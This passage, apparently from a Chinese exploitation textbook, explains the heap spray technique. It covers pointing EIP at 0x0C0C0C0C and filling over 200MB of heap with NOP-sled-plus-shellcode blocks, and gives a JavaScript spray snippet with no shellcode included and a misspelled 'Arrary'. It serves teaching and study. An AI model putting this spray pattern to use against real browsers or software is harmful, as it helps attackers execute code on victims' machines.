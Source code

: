 在使用 Heap Spray 的时候，一般会将 EIP 指向堆区的 0x0C0C0C0C 位置，然后用 JavaScript 申请大量堆内存，并用包含着 0x90 和 shellcode 的“内存片”覆盖这些内存。通常，JavaScript 会从内存低址向高址分配内存，因此申请的内存超过 200MB（200MB=200×1024×1024 = 0x0C800000 > 0x0C0C0C0C）后，0x0C0C0C0C 将被含有 shellcode 的内存片覆盖。只要内存片中的 0x90 能够命中 0x0C0C0C0C 的位置，shellcode 就能最终得到执行。这个过程如图 6.4.1 所示。

<img src="images/05/heapspray技术示意图.png" width="480">

我们可以用类似下面这样的 JavaScript 产生的内存片来覆盖内存。

```javascript
var nop=unescape("%u9090%u9090");
while (nop.length<= 0x100000/2)
{
	nop+=nop;
}//生成一个 1MB 大小充满 0x90 的数据块
nop = nop.substring(0, 0x100000/2 - 32/2 - 4/2 - shellcode.length - 2/2 );
var slide = new Arrary();
for (var i=0; i<200; i++)
{
	slide[i] = nop + shellcode
} 
```
